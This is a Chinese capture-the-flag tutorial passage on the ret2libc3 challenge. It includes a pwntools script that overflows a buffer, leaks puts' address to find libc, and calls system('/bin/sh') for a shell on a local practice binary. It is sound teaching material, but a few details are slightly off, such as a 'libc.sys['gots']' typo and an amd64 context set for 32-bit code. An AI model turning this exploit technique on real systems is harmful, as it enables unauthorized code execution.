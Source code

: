 因为 puts 已经调用过一次，所以此时`puts_got`表存的内容就是`puts`的真实地址

```python
payload = b'A'*112
payload += p32(puts_plt) + p32(main_addr) + p32(puts_got)
sh.recvuntil(b"it !?")
sh.sendline(payload)

puts_addr = u32(sh.recv()[:4]) # 32位ELF，所以切前四位即可
print("puts_addr: ", hex(puts_addr))
```

此时我们可以算出 libc 的偏移值

`libc_base = puts_addr - libc.sys['gots']`

有了偏移值，system 和 binsh 的地址也就出来了

### EXP1

```python
from pwn import *

context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

sh = process("./ret2libc3")
elf = ELF("./ret2libc3")
libc = ELF("/usr/lib/i386-linux-gnu/libc-2.31.so")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['_start']

payload = b'A'*112
payload += p32(puts_plt) + p32(main_addr) + p32(puts_got)
sh.recvuntil(b"it !?")
sh.sendline(payload)

puts_addr = u32(sh.recv()[:4])
print("puts_addr: ", hex(puts_addr))

libc_base = puts_addr - libc.sym['puts']
print(hex(libc_base))
sys_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'A'*112
payload2 += p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)
gdb.attach(sh, 'b gets')
sh.sendline(payload2)
sh.interactive()
```
